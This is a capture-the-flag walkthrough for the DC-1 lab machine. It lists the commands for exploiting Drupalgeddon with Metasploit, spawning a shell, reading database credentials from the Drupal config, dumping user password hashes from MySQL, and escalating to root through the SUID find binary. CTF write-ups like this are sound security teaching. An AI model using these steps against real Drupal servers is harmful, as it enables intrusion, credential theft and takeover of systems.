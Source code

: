 # DC 1 Walkthrough

## Exploiting Drupalgeddon

```sh
msfconsole -q
search Drupalgeddon
use 0
set RHOSTS <target-ip>
exploit
```

## Gaining Shell Access

```sh
python -c "import pty; pty.spawn('/bin/bash')"
```

## Retrieving the First Flag

```sh
cat flag1.txt
```

**Hint:**
> Every good CMS needs a config file—and so do you.

---

## Finding Database Credentials

```php
array (
 'database' => 'drupaldb',
 'username' => 'dbuser',
 'password' => 'R0ck3t',
 'host' => 'localhost',
 'port' => '3306',
 'driver' => 'mysql',
 'prefix' => '',
)
```

**Hint:**
> Brute force and dictionary attacks aren't the only ways to gain access (and you WILL need access).
> What can you do with these credentials?

---

## Accessing MySQL

```sh
mysql -u dbuser -pR0ck3t -h localhost
```

### Extracting Hashes

```sh
SELECT name, pass FROM users;
```

```
admin | $S$DvQI6Y600iNeXRIeEMF94Y6FvN8nujJcEDTCP9nS5.i38jnEKuDR
Fred  | $S$DWGrxef6.D0cwB5Ts.GlnLw15chRRWH2s1R3QBwC0EkvBQ/9TCGg
```

---

## Navigating to Home Directory

```sh
cd /home
```

```sh
cat flag4
```

**Hint:**
> Can you use this same method to find or access the flag in root?
> Probably. But perhaps it's not that easy. Or maybe it is?

---

## Finding SUID Binaries

```sh
find / -perm -u=s 2>/dev/null
```

## Spawning a Shell with Elevated Privileges

```sh
find /dev -name null -exec /bin/bash \;
```

## Accessing the Root Directory

```sh
cd /root
```

```sh
cat thefinalflag.txt
```

---

## Final Flag

**Congratulations!**

> Well done!
> Hopefully you've enjoyed this and learned some new skills.
> You can let me know what you thought of this little journey by contacting me via Twitter - @DCAU7

